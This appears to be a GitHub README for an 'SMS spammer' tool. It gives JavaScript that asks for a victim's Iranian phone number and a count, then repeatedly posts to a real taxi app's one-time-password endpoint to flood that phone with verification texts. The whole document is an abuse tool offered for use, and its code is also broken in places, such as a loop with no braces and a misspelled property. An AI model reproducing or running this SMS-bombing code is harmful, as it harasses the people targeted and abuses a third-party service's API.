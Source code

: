 # ❤️In the name of Allah❤️

# Sms_Spamer
Smap The Sms To Javascript!

# Warnig!
ths phon number Loceishen Iran!

# Code Js
     
     // In the name of Allah❤️
    addEventListener("load", function(){
      swal (
        'In the name of Allah❤️',
    )})
    // start
    function start(){
      // phon number and string
       var phon_number = prompt("Plese Your Phon Number To Spam Sms (+98 ...):")
       var phon = String(phon_number) 
       // number spam 
       var number_spam = prompt("Ok. And Number Spam To '"+phon+"' ?")
       var spam = Number(number_spam)
       // text button to Wait ...
       document.getElementById("click").innerHTMl = "Wait ..."
       // while spam number user
       while (1, spam)
        // requests to api message and data post
        $.post("https://app.snapp.taxi/api/api-passenger-oauth/v2/otp", {"cellphone":phon})
        // print run spam and send!
        addEventListener("click", function (){
          swal (
            "Send Sacssefuly.",
            "Your Spam Message Snap To ...",
            "success"
          )
        })
      }
    // =============================================================
     
# import labrari js
       // sweetalert2
      <script src="https://cdnjs.cloudflare.com/ajax/libs/limonte-sweetalert2/7.28.4/sweetalert2.all.min.js"></script>
      // jquery
      <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.5.1/jquery.min.js"></script>

